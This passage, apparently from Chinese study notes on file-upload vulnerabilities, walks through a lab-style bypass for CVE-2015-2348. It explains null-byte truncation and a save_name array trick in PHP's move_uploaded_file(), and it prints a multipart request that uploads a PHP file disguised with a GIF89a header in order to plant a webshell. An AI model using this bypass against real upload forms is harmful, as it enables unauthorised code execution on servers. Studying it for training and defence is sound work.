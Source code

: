查看提示

![img](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/02%20%E5%88%A9%E7%94%A8%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9Emd.assets/2018111017530776.png)

CVE-2015-2348

【**move_upload_file函数会忽略/.**】

move_uploaded_file() **00截断**，上传webshell，同时自定义保存名称，直接保存为php是不行的 

 发现move_uploaded_file()函数中的img_path是由**post参数**save_name控制的，因此可以在save_name利用00截断绕过： 


构造

![img](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/02%20%E5%88%A9%E7%94%A8%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9Emd.assets/20181110180207252.png)

或者

![img](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/Attack/02%20%E5%88%A9%E7%94%A8%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9Emd.assets/20181110180036908.png)

均可绕过

```
Content-Disposition: form-data; name="upload_file"; filename="haha.php"
Content-Type: image/jpeg

GIF89a
<?php phpinfo()?>
-----------------------------200222961522119
Content-Disposition: form-data; name="save_name[0]"

upload-20.php/
-----------------------------200222961522119
Content-Disposition: form-data; name="save_name[2]"

jpg
```
